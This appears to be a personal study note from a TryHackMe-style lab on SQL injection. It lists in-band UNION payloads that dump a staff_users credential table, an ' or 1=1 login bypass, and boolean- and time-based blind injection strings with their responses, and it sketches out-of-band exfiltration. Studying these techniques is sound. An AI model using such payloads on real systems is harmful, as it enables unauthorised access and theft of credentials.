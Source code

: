 # SQL Injection

![](assets/Pasted%20image%2020241116223725.png)

# [Introduction]()

In this case attacker exploit vulnerable input field in the web page to gain access of the database. Attacker inserts SQL command in the input field that interact with the database.
# [Example]()

![](assets/Pasted%20image%2020241116225912.png)
![](assets/Pasted%20image%2020241116225956.png)

# [SQL Injection Snippets]()

## [Example 0: Check SQL Injection Vulnerability]()

use `'` or `"` to know if the input field is vulnerable to SQL injection.

## [Example 1: In-band SQL Injection (reflected)]()

```sql
1 UNION SELECT 1
```

- If above gives error add another until success

```sql
0 UNION SELECT 1,2
```

```sql
0 UNION SELECT 1,2,3
```

- Above gives no error so look for database

```sql
0 UNION SELECT 1,2,database()
```

- `sqli_one` is the database name found. Get list of tables

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

- Fond `article,staff_users` tables. Get column from `staff_users`

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

- Found `id,password,username` columns. Let's get username and passwords

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
## [Example 2: Blind SQL Injection: Bypass Auth]()
- Inserting below will result `true` for any input

```sql
' or 1=1;--
```

## [Example 3: Blind SQL Injection: Boolean Based]()

`https://website.thm/checkuser?username=admin` this page returns `{"taken":true}`. For username query parameter we will put below sql snippet.

- Similar to example 1, select 1 if error/fail look for select 1,2 and so one

```sql
admin123' UNION SELECT 1;--
```
```
Response:
{"taken":false}
```

```sql
admin123' UNION SELECT 1,2;--
```
```
Response:
{"taken":false}
```

```sql
admin123' UNION SELECT 1,2,3;--
```
```
Response:
{"taken":true}
```

- Now the response `taken` is `true`, look for database.

```sql
admin123' UNION SELECT 1,2,3 where database() like '%';--
```
```
Response:
{"taken":true}
```

```sql
admin123' UNION SELECT 1,2,3 where database() like 's%';--
```
```
Response:
{"taken":true}
```

- Brute force the name using `database() like 'sa%'` `, database() like 'sa%'`  as the received output is true or false until get  the database name. In this case it is `sqli_three`

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three';--
```
```
Response:
{"taken":true}
```

- Brute force table name until response is true

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
```

- Similarly brute force column name

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
```
```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
```

- Repeating the process to get username and password

```sql
admin123' UNION SELECT 1,2,3 from users where username like 'a%'
```
```sql
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%'
```

## [Example 4: Blind SQL: Time Based]()

There is no specific response for injected sql but in this case we use sleep(5) function to wait the server for 5 second. If the server waits for 5 second we know it is vulnerable to sql injection. 

- Similar to above example checking the number of columns by using

```sql
admin123' UNION SELECT SLEEP(5);--
```
![](assets/Pasted%20image%2020241119155113.png)

This didn't wait for 5 seconds try for more number of columns

```sql
admin123' UNION SELECT SLEEP(5),2;--
```
![](assets/Pasted%20image%2020241119155233.png)

This waited for 5 seconds telling there are 3 columns

## [Example 5: Out of band SQL]()

1. An attacker makes a request to a website vulnerable to SQL Injection with an injection payload.
2. The Website makes an SQL query to the database, which also passes the hacker's payload.
3. The payload contains a request which forces an HTTP request back to the hacker's machine containing data from the database.

![](assets/Pasted%20image%2020241119160027.png)


